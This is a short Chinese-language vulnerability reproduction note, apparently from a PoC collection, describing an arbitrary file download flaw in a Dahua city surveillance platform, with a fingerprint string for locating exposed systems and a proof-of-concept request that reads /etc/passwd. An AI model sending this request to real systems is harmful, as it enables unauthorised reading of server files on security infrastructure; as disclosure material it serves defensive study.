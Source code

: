 # 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>大华城市安防监控系统平台管理</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"attachment_downloadByUrlAtt.action"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1647528195700-90c15ce4-496f-4976-8538-8b39e1f248af.png)

验证POC

```javascript
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![img](../../../.vuepress/public/img/1647528297462-f92141b3-fa43-4cce-9717-13ba3b144dc7.png)
